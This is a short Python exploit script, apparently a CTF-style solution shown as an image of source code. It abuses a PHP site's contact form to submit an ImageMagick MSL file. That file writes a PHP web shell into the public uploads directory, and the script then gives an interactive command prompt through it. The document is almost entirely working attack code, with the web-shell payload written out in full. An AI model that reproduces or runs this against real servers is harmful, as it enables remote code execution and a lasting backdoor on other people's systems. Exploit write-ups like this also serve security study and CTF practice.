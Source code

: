 ```python


def get_timestamp(date: str):
    time = date.split()[-2].split(':')
    day = 21
    month = 12
    year = 2022
    hour = time[0]
    minute = time[1]
    second = time[2]
    time_stamp = check_output(
        f'php -r "echo mktime({hour}, {minute}, {second}, {month}, {day}, {year});"', shell=True)
    return time_stamp


def upload_msl(message, url=URL):
    rand_name = b2a_hex(urandom(10))
    print("[+] rand name: "+rand_name.decode())
    res = requests.post(f"{url}/index.php?module=Contact&action=send", data={
        "name": rand_name.decode(),
        "body": message,
    })
    print("[+] server: "+res.text)
    time_stamp = get_timestamp(res.headers['Date']).decode()
    hash = b2a_hex(md5(rand_name).digest()).decode()
    print("[+] time stamp: "+time_stamp)
    return (hash, time_stamp)

def pseudo_shell(filename, url=URL):
    while (True):
        cmd = input("$ ")
        redisplay()
        res = requests.get(f"{url}uploads/{filename}", params={"a":cmd})
        print(res.text)

if __name__ == "__main__":
    filename = "s.php"
    b = upload_msl(f"""
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php @system(@$_REQUEST['a']); ?&gt;" />
 <write filename="info:/var/www/html/public/uploads/{filename}" />
</image>
    """.strip())
    a = execute_msl(*b)
    if not a:
        print("[x] exploit failure!")
    print("[+] upload shell success!")
    pseudo_shell(filename)
```

